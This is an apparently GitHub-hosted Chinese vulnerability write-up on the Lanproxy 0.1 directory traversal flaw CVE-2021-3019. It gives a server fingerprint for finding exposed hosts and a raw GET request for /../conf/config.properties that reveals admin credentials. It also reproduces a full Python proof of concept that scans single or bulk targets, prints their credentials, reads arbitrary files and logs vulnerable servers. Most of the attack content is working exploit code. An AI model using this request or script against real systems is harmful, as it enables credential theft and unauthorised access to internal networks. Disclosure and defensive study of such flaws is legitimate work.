





# Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

```
Lanproxy 0.1
```

## 网络测绘

```
header= "Server: LPS-0.1"
```

## 环境搭建

https://github.com/ffay/lanproxy/

## 漏洞复现

打开登录页面如下


使用Burp抓包发送如下请求


```html
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```




成功在配置文件中读取 账号密码





试着读取其他敏感文件






## 漏洞POC


[Github:CVE-2021-3019](https://github.com/FanqXu/CVE-2021-3019/)


```python
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    :   urllib.py
@Time    :   2021/01/10 21:59:32
@Author  :   _0xf4n9x_
@Version :   1.0
@Contact :   fanq.xu@gmail.com
@Desc    :   None
'''


import sys
import argparse
import os
from urllib import request
from urllib import error

banner = """
 ######  ##     ## ########     #######    #####    #######    ##       #######    #####    ##   #######  
##    ## ##     ## ##          ##     ##  ##   ##  ##     ## ####      ##     ##  ##   ## ####  ##     ## 
##       ##     ## ##                 ## ##     ##        ##   ##             ## ##     ##  ##  ##     ## 
##       ##     ## ###### ##### #######  ##     ##  #######    ## ##### #######  ##     ##  ##   ######## 
##        ##   ##  ##          ##        ##     ## ##          ##             ## ##     ##  ##         ## 
##    ##   ## ##   ##          ##         ##   ##  ##          ##      ##     ##  ##   ##   ##  ##     ## 
 ######     ###    ########    #########   #####   ######### ######     #######    #####  ###### #######  
                                                                                Author: _0xf4n9x_"""

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4080.0 Safari/537.36 Edg/82.0.453.0"}


def readConf(url):
    """
    默认读取配置文件，并通过能否读取配置文件来判断是否存在漏洞
    """
    config = [
        'config.server.bind',
        'config.server.port',
        'config.admin.username',
        'config.admin.password'
    ]
    path = "/../conf/config.properties"
    confUrl = url + path
    r = request.Request(confUrl, headers=headers)
    try:
        with request.urlopen(r, timeout=10) as resp:
            confContent = resp.read().decode('utf-8')
            for i in config:
                if i not in confContent:
                    print("[-] " + url + " is not vulnerable")
                    return 'Bye :('
            print("[+] " + url + " is vulnerable! :)")
            return confContent
    except ConnectionResetError:
        print("[-] " + url + " Connection reset by peer")
    except error.HTTPError as e:
        print("[-] " + url + e.code + e.reason)
    except error.URLError as e:
        print("[-] " + url + e.code + e.reason)
    except:
        print("[-] " + url + " is not vulnerable")
    return 0


def readOtherFile(url, path):
    """
    读取任意其他文件
    """
    jumpSym = "/../../../../../../../../.."
    fullUrl = url + jumpSym + path
    r = request.Request(fullUrl, headers=headers)
    with request.urlopen(r, timeout=10) as resp:
        fileContent = resp.read().decode('utf-8')
        print(fileContent)


def run(url, path="/../conf/config.properties"):
    if os.path.isfile(url) == False:
        # if 'http' not in url:
        #     url = 'http://' + url
        url = 'http://' + url.replace('http://', '').replace('/', '')
        if path == "/../conf/config.properties":
            print(readConf(url))
        else:
            if readConf(url) not in [0, 'Bye :(']:
                readOtherFile(url, path)
    else:
        urls = []
        with open(url) as target:
            urls = target.read().splitlines()
            for url in urls:
                # if 'http' not in url:
                #     url = 'http://' + url
                url = 'http://' + url.replace('http://', '').replace('/', '')
                if readConf(url) not in [0, 'Bye :(']:
                    with open("success.txt", "a+") as f:
                        f.write(url + "\n")
            f.close()


def main():
    parser = argparse.ArgumentParser(
        description="CVE-2021-3019 lanproxy arbitrary file read vulnerability detection POC")
    parser.add_argument('-u', '--url', type=str,
                        help="test a single website")
    parser.add_argument('-r', '--read', type=str,
                        help="this parameter is followed by the file name to be read, the configuration file is read by default")
    parser.add_argument('-f', '--file', type=str,
                        help="perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file")
    args = parser.parse_args()

    if len(sys.argv) <= 1:
        parser.print_help()
    elif sys.argv[1] in ['-u', '--url']:
        if len(sys.argv) == 3:
            run(args.url)
        elif len(sys.argv) == 5:
            run(args.url, args.read)
    elif sys.argv[1] in ['-f', '--file']:
        run(args.file)


if __name__ == "__main__":
    print(banner)
    main()
```





## 